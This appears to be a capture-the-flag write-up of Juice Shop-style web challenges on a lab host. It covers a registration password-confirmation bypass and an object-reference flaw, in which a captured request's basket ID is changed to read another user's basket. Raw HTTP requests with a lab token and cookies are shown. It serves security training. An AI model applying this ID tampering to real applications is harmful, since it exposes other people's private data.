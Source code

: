 ## 08 Repitative Registration
The challenge asks us to check for the DRY principle. First let's see what it is
DRY - Don't repeat yourself in User Registration.
Cool, the only repeated field is the password.
To solve this, while typing in the original password, we repeat it for the confirm password. If the confirm password is the same as original password, it does not show the error of "passwords do not match". However, if we change the original password AFTER the confirm password "passwords do not match is removed", then there is no error. 
So we first need to match the passwords, then change the password, and we see that there is no error, and we are able to create an account. 
Hence, the challenge is marked solved. 

# Level 2 
## 01 Basket Access Tier 1
This challenge is straightforward. Our job is to just find the request in burpsuite where it is requesting for a user's basket. When we have logged in, so let's find it 
This is the request
```text
GET /rest/basket/5 HTTP/1.1
Host: 192.168.24.143:3000
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Referer: http://192.168.24.143:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=oZ9wBrRM43l7VxPnXQz1LW0NVHehqiau1yixB08pg6kbjKONJm2yDYaE5vqe; io=J8aXdQUF77aZTjggAAAE; welcome-banner-status=dismiss; cookieconsent_status=dismiss; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
Connection: close
```
Now, we can see that we don't really need to know any user's ID, we can just change 5 to any random number and we will have another user's basket.
Let's try it 
```text
GET /rest/basket/1 HTTP/1.1
Host: 192.168.24.143:3000
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
```